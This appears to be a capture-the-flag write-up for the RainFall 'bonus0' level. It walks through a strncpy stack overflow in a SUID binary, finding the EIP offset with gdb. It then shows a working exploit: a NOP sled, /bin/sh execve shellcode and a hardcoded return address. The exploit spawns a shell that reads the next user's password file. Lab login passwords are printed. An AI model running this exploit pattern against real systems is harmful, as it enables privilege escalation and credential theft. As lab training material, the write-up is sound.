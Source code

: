 login as the user `bonus0`


```shell
ssh -p 4242 bonus0@10.13.100.153
bonus0@10.13.100.153's password: f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/bonus0/bonus0
```

a `SUID` exactable file is locates in the home directory


```shell
bonus0@RainFall:~$ ./bonus0
 -
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
 -
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB��� BBBBBBBBBBBBBBBBBBBB���
Segmentation fault (core dumped)
```

lets inspect the program with gdb


```gdb
(gdb) b * 0x080485cb    # set a break point the the return of main
Breakpoint 1 at 0x80485cb
(gdb) run
Starting program: /home/user/bonus0/bonus0
 -
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
 -
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB��� BBBBBBBBBBBBBBBBBBBB���

Breakpoint 1, 0x080485cb in main ()
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

looks like `eip` was overwritten by B's

```gdb
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/bonus0/bonus0
 -
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
 -
B1B2B3B4B5B6B7B8B9B10B11B12B13B14B15B16
AAAAAAAAAAAAAAAAAAAAB1B2B3B4B5B6B7B8B9B1��� B1B2B3B4B5B6B7B8B9B1���

Breakpoint 1, 0x080485cb in main ()
(gdb) C
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x42364235 in ?? ()
(gdb)
```

```shell
bonus0@RainFall:~$ python -c "print '42364235'.decode('hex')"
B6B5
```
the value `5B6B` is located at the 9th index of the second input, what will be where we insert the start address of out malicious code

the program defines the function `p` the reads from stdin to a buffer of size `4096`. the input is read using the `read` c function with dose not insert a null byte at the end of the string. also  `strncpy` will not null terminate the destination string is the number of copied characters are less or equal then the number of the source string.
we can insert shell code at the start of the first input to exploit the program.


<!-- "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" -->
```shell
bonus0@RainFall:~$ (python -c "print '\x90' * 50 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' "; python -c "print 'A' * 9 + '\xa0\xe6\xff\xbf' + 'A' * 8 "; cat) | /home/user/bonus0/bonus0
 -
 -
��������������������AAAAAAAAA����AAAAAAA��� AAAAAAAAA����AAAAAAA���
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

